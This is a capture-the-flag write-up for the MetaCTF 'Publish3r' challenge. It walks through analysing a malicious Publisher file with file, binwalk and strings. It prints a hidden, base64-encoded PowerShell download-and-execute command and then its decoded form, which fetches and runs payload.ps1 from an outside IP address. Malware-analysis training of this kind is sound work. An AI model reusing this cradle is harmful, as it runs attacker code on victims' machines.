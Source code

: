 # Publish3r
### Problem description

We believe we found a malicious file on someone's workstation. Judging by looking at it, the file likely came from a phishing email. Anyways, we'd like you to analyze the sample, so we can see what would have happened if it executed successfully. That way we can hunt for signs of it across the enterprise. Your flag will be the URL that the malware is trying to reach out to! Can you do it? Format: `MetaCTF{http://.........}`

Note: We've put the actual file in an encrypted 7z so your browser doesn't complain when downloading it (and our site doesn't get flagged as malware). The password is `metactf`
## Steps I followed to find relevant information and the flag

Firstly, I used file command to know what kind of zip was it.

```shell
$ file Publish3r.7z 
Publish3r.7z: 7-zip archive data, version 0.4
```

Secondly, I unziped the file with the above provided password. It only has a `.pub` file, when opening this file we realize that has a message:

<img src="https://res.cloudinary.com/dxbnpu2rx/image/upload/v1603849360/Screenshot_from_2020-10-27_14-41-13_djv3vs.png" height="300" width="600"/>


So I though, obviously it has to be something contained within the `Publish3r.pub` file.

Using `binwalk` I realized that the file has compressed LZMA data 
```shell
$ binwalk -z Publish3r.pub 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
109221        0x1AAA5         LZMA compressed data, properties: 0xC6, dictionary 
size: 0 bytes, uncompressed size: 196608 bytes
```

Since I couldn't find how to extraxt LZMA compressed data whithin a .pub file I tried by searching the strings of the file.

```shell
$ strings Publish3r.pub > Publisher.txt
``` 

And I found this interesting string:

`C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -exec Bypass -windowstyle hidden -enc SQBFAHgAIAAoACgAbgBFAFcALQBPAEIASgBlAEMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbA
BvAGEAZABzAHQAcgBpAG4AZwAoACgAIgBoAHQAdABwADoALwAvADEAMwAuADMANwAuADEAMAAuADEAMAA6ADQANAA0ADMALwBkA
G8AYwAvAHAAYQB5AGwAbwBhAGQALgBwAHMAMQAiACkAKQApAA==`


Using the [CyberChef](https://gchq.github.io/CyberChef/) tool provided by MetaCTF I decoded the base64 string.

The decoded strirngs is as follows:

`I.E.x. .(.(.n.E.W.-.O.B.J.e.C.t. .n.e.t...w.e.b.c.l.i.e.n.t.)...d.o.w.n.l.o.a.d.s.t.r.i.n.g.(.(.".h.t.t.p.:././.1.3...3.7...1.0...1.0.:.4.4.4.3./.d.o.c./.p.a.y.l.o.a.d...p.s.1.".).).).`

Simply by removing the '.' after each `n+1` character of the string we get:

`I.E.x ((nEWOBJeCt.net.webclient).downloadstring(("http://13.37.10.10:4443/doc/payload.ps1")))`

The flag for this problem is **MetaCTF{http://13.37.10.10:4443/doc/payload.ps1}**




